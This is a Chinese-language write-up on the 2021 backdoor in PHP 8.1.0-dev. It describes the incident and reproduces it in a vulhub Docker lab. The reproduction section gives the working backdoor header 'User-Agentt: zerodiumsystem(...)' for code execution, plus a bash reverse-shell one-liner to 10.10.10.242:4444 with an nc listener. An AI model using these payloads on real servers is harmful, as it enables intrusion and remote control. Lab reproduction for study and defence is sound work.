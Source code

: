 
- [漏洞概述](#漏洞概述)
- [漏洞影响](#漏洞影响)
- [漏洞复现](#漏洞复现)



## 漏洞概述
PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送User-Agentt头来执行任意代码。

目前
- PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。
- 由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响
`PHP 8.1.0-dev`


## 漏洞复现 

1. 环境搭建

利用vulhub搭建环境，进入`/vulhub-master/php/8.1-backdoor`中，执行`docker-compose up -d`启动环境，访问`8080`

2. 文件读取

后门为添加请求头

`User-Agentt: zerodiumsystem('id');`


3. 反弹shell

可以执行命令，那我们就可以进行反弹shell了

linux下反弹shell的语句

`bash -c 'exec bash -i &>/dev/tcp/10.10.10.242/4444 <&1'`

`nc -nvlp 4444`










.